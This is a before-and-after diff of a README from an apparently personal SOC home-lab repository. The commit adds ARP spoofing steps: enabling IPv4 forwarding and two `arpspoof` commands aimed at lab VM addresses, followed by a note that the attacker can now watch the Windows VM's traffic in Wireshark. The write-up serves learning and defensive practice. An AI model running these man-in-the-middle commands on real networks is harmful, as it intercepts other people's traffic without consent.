

Before and after one commit to san1cs/SOC_Home_Lab, a Markdown page: 8_Wireshark_Packet_Analysis/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/8_Wireshark_Packet_Analysis/README.md
+++ b/8_Wireshark_Packet_Analysis/README.md
@@ -206,9 +206,10 @@ This capture verifies successful bidirectional communication between the Kali Li
 
 * Wireshark capture filter `arp`
 
-* **ipv4 forward**
+* **ipv4 forward** Enabling the ipv4 forward to send the packet without droping  `sudo sysctl -w net.ipv4.ip_forward=1`
 
-* **arpspoof**
+* **arpspoof** Excecutinh the MITM command `sudo arpspoof -i eth1 -t 10.0.2.1 10.0.2.4` in termina 1 and `sudo arpspoof -i eth1 -t 10.0.2.4 10.0.2.1` in terminal 2
+
 
 ### 8.2.Observation
 
@@ -218,6 +219,8 @@ This capture verifies successful bidirectional communication between the Kali Li
 
 ### 8.3.Result
 
+* The Windows VM now sends all its outbound traffic to the Kali machine first. The attacker can now see everything in Wireshark that Windows user is doing.
+
 ![kali](./screenshots/kali8.png)
 
 [**ARP**](./pcap_files/arp.pcapng)
```
